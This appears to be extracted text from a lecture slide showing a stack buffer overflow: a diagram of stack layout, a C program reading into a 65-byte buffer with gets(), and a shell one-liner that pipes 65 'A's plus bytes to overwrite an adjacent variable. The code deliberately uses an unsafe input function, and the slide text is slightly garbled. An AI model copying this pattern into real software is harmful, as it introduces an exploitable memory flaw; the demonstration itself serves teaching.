

Exa[si]mple .. II

count	            **argv
Return Address
Previous SP
variable
65 bytes
buffer
int main(int count,char **argv)
{
	int variable = 10;
	char buffer[65];

	gets(buffer);

	if(variable != 10)
		printf(“My Variable is 10”);
	else
		printf(“OOps I dont see 10”);

	return 0
}
LOW
HIGH

11
0
0
A
A
A
11
A
A
A
echo -e `python -c “print ‘A’*65 + ‘\x00\x00\x00\x0b’ ” ` |  ./a.out